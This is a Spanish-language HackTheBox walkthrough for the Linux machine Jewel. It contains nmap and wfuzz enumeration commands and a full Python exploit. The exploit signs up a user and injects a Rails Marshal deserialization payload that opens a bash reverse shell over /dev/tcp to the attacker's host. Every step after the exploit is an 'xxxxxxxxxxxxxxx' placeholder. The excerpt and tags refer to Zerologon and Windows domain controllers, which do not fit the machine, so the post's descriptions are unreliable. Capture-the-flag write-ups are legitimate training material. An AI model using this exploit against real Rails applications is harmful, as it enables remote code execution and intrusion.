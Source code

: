 ```yaml
---
title: HackTheBox Jewel
layout: single
excerpt: Mucho se está hablando acerca de la nueva vulnerabilidad Zerologon, pero...
  ¿realmente es crítica?. Lo analizaremos en detalle en este artículo.
date: '2020-09-16'
classes: wide
header:
  teaser: "/assets/images/jewel/jewel.png"
  teaser_home_page: true
categories:
- Utilidades
- Exploits
- Vulnerabilidades
- HackTheBox
tags:
- Pentesting
- Herramientas
- Windows
- Linux
- Domain Controller
- Guías
- Privilege Escalation
---
```


<div style="float: left; margin-left: 45px; margin-right: 35px;margin-top: 35px;">
	<table>
                                <thead>
                                   <tr>
                                        <th>Column  </th><th>
                                            Detalles
                                </th></tr></thead><tbody>
                                    <tr>
                                        <td>Name
                                        </td><td>
                                            Jewel
                                    </td></tr><tr>
                                        <td>IP
                                        </td><td>
                                            10.10.10.211
                                    </td></tr><tr>
                                        <td>Points
                                        </td><td>
                                            30
                                    </td></tr><tr>
                                        <td>Os
                                        </td><td>
                                            Linux
                                    </td></tr><tr>
                                        <td>Medium
                                        </td><td>
                                            Hard
                                    </td></tr><tr>
                                        <td>Creator
                                        </td><td>
                                            <a href="https://www.hackthebox.eu/home/users/profile/159204" target="_blank">polarbearer</a>
                                    </td></tr><tr>
                                        <td>Out On
                                        </td><td>10 Oct 2020
                            </td></tr></tbody>
</table>
	</div>
	
<div>
	<p align="left">
<img src="/assets/images/jewel/jewel.png">
</p>
</div>

# Resumen

* [`Nmap` muestra los 3 puertos abiertos.](#nmap-muestra-los-3-puertos-abiertos) 
- [Conseguir el `web server`](#conseguir-el-web-server)
- [Inyecctando la `Shell` en el servidor](#inyecctando-la-shell-en-el-servidor)
- [Conseguir la `Shell` desde el servidor](#conseguir-la-shell-desde-el-servidor)
- [Conseguir el password de la cuenta de bill en los `backups del servidor`](#conseguir-el-password-de-la-cuenta-de-bill-en-los-backups-del-servidor)
- [Obtener el codigo de `Google Authenticator`](#obtener-el-codigo-de-google-authenticator)
- [Usando el comando `sudo -l`](#usando-el-comando-sudo--l)
- [Con la ayuda de GTFO bins obtenemos el root.txt](#con-la-ayuda-de-gtfo-bins-obtenemos-el-roottxt)


## `Nmap` muestra los 3 puertos abiertos.
Primero añadinos a nuestro `/etc/hosts` la máquina Jewel.
```bash 
echo "10.10.10.211  jewel.htb" >> /etc/hosts
```
Cada uno tiene su forma de hacer la enumeración de puertos/servicios corriendo bajo un sistema. Yo generalmente suelo seguir estos pasos.

* scaneo inicial de puertos abiertos sobre el sistema

```bash 
nmap -nmap -p- --open -T5 -v -n 10.10.10.211
```
<p align="center">
<img src="/assets/images/jewel/nmap1.png">
</p>

* Enumeración del servicio y versionado para los puertos descubiertos sobre el sistema

```bash
nmap -p$(cat allPorts | grep -oP '\d{2,5}/open' | awk '{print $1}' FS="/" | xargs | tr ' ' ',') -sC -sV 10.10.10.211 -oN targeted
```
La razón de hacer esto es que me parece mucho más ágil el poder tener una visual de los puertos abiertos de un primer tirón para el escaneo inicial, así en lo que posteriormente lanzo el profundo de enumeración de servicios con los scripts básicos de enumeración, puedo ir enumerando por mi cuenta los puertos que corren servicios conocidos (HTTP, HTTPS, FTP, ms-sql-s, etc.).

* En caso de contar con un escaneo inicial lento, suelo aplicar la siguiente variante

```bash
nmap -A -T4 -v 10.10.10.211 -oN misc
```

Este escaneo no engloba todos los puertos, y probablemente nos estemos saltando algunos interesantes que escapen de este escaneo. En tal caso podemos ir englobando rangos de búsqueda a fin de determinar los puertos que están abiertos (Pues lanzando el -p- cuando se demora mucho tiempo nmap suele detener el escaneo haciéndolo incompleto):

```bash
nmap -p1-10000 --open -T5 -v ipHost -n -oG range1-10000
nmap -p10000-20000 --open -T5 -v ipHost -n -oG range10000-20000
nmap -p20000-30000 --open -T5 -v ipHost -n -oG range20000-30000
                        .
                        .
                        .
```

En caso de figurar un servicio HTTP corriendo bajo un puerto, podemos aprovecharnos del script http-enum.nse de nmap para enumerar directorios y archivos del servicio web (Cuenta con un diccionario pequeño pero nos puede servir para tener una visual rápida sobre los recursos alojados):

```bash
nmap --script=http-enum.nse -p80,443,8080 10.10.10.211 -oN webScan
```

* Visualización de categorías para los scripts de nmap

```bash
grep -r categories /usr/share/nmap/scripts/*.nse | grep -oP '".*?"' | sort -u
```

Estas categorías son todas las que nmap posee, pudiendo por ejemplo para un servicio FTP o SMB aplicar las siguientes categorías:

```bash
nmap -p21,445 --script="vuln and safe" 10.10.10.211 -oN vulnSafeScan
```






```bash 
nmap --min-rate 5000 --open -vvv -n -Pn -p- 10.10.10.211 -oG allPorts
```
<p align="center">
<img src="/assets/images/jewel/nmap2.png">
</p>

```bash
extractPorts allPorts
```

```bash 
which extratPorts
```

```bash 
nmap -sC -sV -p8080 10.10.10.211 -oN targeted
```

```bash 
sudo whatweb http://10.10.10.211:8080 2>/dev/null
```

```bash 
nmap --script http-enum -p8080 10.10.10.211 -oN webScan
```

```bash 
wfuzz -c --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.10.211:8080/FUZZ
```

```bash 

```


## Conseguir el `web server`
Script en python para conseguir `Shell`

```python
import requests
import re
import sys

URL='http://{}:8080'.format(sys.argv[1])
username='myuser4'
password='mypass4'
email='myuser4@mail.com'

if len(sys.argv) != 4:
    print("specify target IP, your IP and port: python3 rev.py 10.10.xx.xx 9001")
    exit(0)

s = requests.Session()

resp = s.get(URL + '/signup')
rx = r'token" content="(.*)"'

token = re.search(rx,resp.text).group(1)

# create user
data = {}
data['utf8'] = 'â'
data['authenticity_token'] = token
data['user[username]'] = username
data['user[email]'] = email
data['user[password]'] = password
data['commit'] = 'Create User'
resp = s.post(URL + '/users', data=data)

# login
data = {}
data['utf8'] = 'â'
data['authenticity_token'] = token
data['session[email]'] = email
data['session[password]'] = password
data['commit'] = 'Log in'
resp = s.post(URL + '/login', data=data)

rx = r'href="/users/(.*)"'
user_id = re.search(rx,resp.text).group(1)

# rev shell
rev = "bash -c 'bash -i >& /dev/tcp/{}/{} 0>&1'".format(sys.argv[2], sys.argv[3])
payload = '\x04\x08o\x3A\x40ActiveSupport\x3A\x3ADeprecation\x3A\x3ADeprecatedInstanceVariableProxy'
payload += '\x09\x3A\x0E\x40instanceo\x3A\x08ERB\x08\x3A\x09\x40srcI\x22'
payload += '{}\x60{}\x60'.format(chr(len(rev)+7), rev)
payload += '\x06\x3A\x06ET\x3A\x0E\x40filenameI\x22\x061\x06\x3B\x09T\x3A\x0C\x40linenoi\x06\x3A\x0C\x40method\x3A'
payload += '\x0Bresult\x3A\x09\x40varI\x22\x0C\x40result\x06\x3B\x09T\x3A\x10\x40deprecatorIu\x3A\x1F'
payload += 'ActiveSupport\x3A\x3ADeprecation\x00\x06\x3B\x09T'

data = {}
data['utf8'] = 'â'
data['authenticity_token'] = token
data['_method'] = 'patch'
data['user[username]'] = payload
data['commit'] = 'Update User'
s.post(URL + '/users/' + user_id, data=data)
s.post(URL + '/users/' + user_id, data=data)

s.get(URL + '/articles')
```

## Inyecctando la `Shell` en el servidor
xxxxxxxxxxxxxxx

## Conseguir la `Shell` desde el servidor
xxxxxxxxxxxxxxx

## Conseguir el password de la cuenta de bill en los `backups del servidor`
xxxxxxxxxxxxxxx

## Obtener el codigo de `Google Authenticator`
xxxxxxxxxxxxxxx

## Usando el comando `sudo -l`
xxxxxxxxxxxxxxx

## Con la ayuda de GTFO bins obtenemos el root.txt
xxxxxxxxxxxxxxxc
